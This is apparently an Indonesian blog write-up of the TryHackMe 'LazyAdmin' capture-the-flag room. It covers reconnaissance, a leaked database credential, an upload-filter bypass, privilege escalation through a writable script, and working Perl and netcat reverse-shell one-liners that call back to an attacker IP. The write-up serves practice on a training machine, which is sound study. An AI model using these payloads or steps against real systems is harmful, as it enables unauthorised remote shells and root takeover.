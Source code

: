 ```yaml
---
title: "Tryhackme - LazyAdmin WriteUps"
date: 2022-12-16 13:00:00 +07:00
categories: [WriteUps]
tags: [ctf, Tryhackme, pentest, writeups]
image: 
---
```


# Tryhackme - LazyAdmin WriteUps

Menemukan Port terbuka dengan Nmap, Nmap menemukan beberapa layanan umum yang berjalan pada port standar mereka: 22 (SSH) dan 80 (HTTP).
![image](https://media.discordapp.net/attachments/740245586095112242/1057183440065278022/image.png)

Selanjutnya kita mencoba scan directory tersembunyi dengan Ffuf. Disini kita menemukan information sensitive yang ada pada directory listing di ```/content/inc```:
![image](https://media.discordapp.net/attachments/740245586095112242/1057183750422798356/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057183880525910046/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057183998167765012/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057184167206596670/image.png)

Setelah kita membuka file .sql nya, Disini kita mendapatkan admin dan password yang memungkinkan informasi ini mengarah pada login panel. Dari fuzzing directory tadi kita mendapatkan directory pada ```/content/as/ directory``` tersebut mengarah pada login panel. Kita coba login dengan admin dan password yang didapat dari databases tadi. Untuk admin password setelah kita crack:
```
manager:Password123
```
![image](https://media.discordapp.net/attachments/740245586095112242/1057184472358985748/image.png)

Kita disini mencoba mencari file uploader, ternyata file uploader ini berada di menu Media Center. Tetapi disini tidak bisa langsung upload ```file.php``` karena server tidak menerima file berextesion php maka itu kita bypass ```file.php``` nya menjadi ```file.php5```
![image](https://media.discordapp.net/attachments/740245586095112242/1057184797044256809/image.png)

Setelah berhasil ke upload kita mencari dimana letak ```file.php``` tersebut, letak file.php di directory ```/content/attachment```. Disini kita bisa menggunakan backdoor ```file.php``` ini untuk backconnect dengan kita.
![image](https://media.discordapp.net/attachments/740245586095112242/1057185105778589726/image.png)

Kita mencoba backconnect an server victim ke server attacker dengan ```revshell``` generator. Payloadnya:
```
perl -e 'use Socket;$i="10.8.46.188";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
```
![image](https://media.discordapp.net/attachments/740245586095112242/1057185479180689438/image.png)

Selanjutnya kita biasa untuk melihat sudoers dengan menggunakan ```sudo -l``` disini apakah ada local privileges atau tidak. Dan ternyata disini ada package perl dan ```/home/itguy/backup.pl``` yang bisa masuk ke root access secara langsung. 
![image](https://media.discordapp.net/attachments/740245586095112242/1057185986028785705/image.png)

Mari kita lihat dengan membaca isi file dari ```/home/itguy/backup.pl```. disini file ```backup.pl``` memanggil bash secara langsung dengan pemanggilan pada ```/etc/copy.sh```.
![image](https://media.discordapp.net/attachments/740245586095112242/1057186186604580976/image.png)

File ```copy.sh``` ini juga berisi reverse shell yang dapat kita backconnect an dengan web victim. kita mencoba dengan payload ini untuk menaikan user biasa ke root access dengan cara backconnect dengan ```nc -lvnp```. 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IPME 7331 >/tmp/f
```
![image](https://media.discordapp.net/attachments/740245586095112242/1057188478527488000/image.png)

Kita mencoba mengganti isi file copy.sh dengan cara: 
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.188 7331 >/tmp/f" > /etc/copy.sh
```
setelah kita ubah dengan alamat IP kita dapat langsung masuk pada root access. Kita mencoba menjalankan file ```/home/itguy/backup.pl``` dengan menambahkan sudo dan menjalankan perl. 
![image](https://media.discordapp.net/attachments/740245586095112242/1057188578553233428/image.png)

Kembali ke netcat kita, dan disini kita telah mendapatkan root access.
![image](https://media.discordapp.net/attachments/740245586095112242/1057188665157230673/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1057188746669330522/image.png)
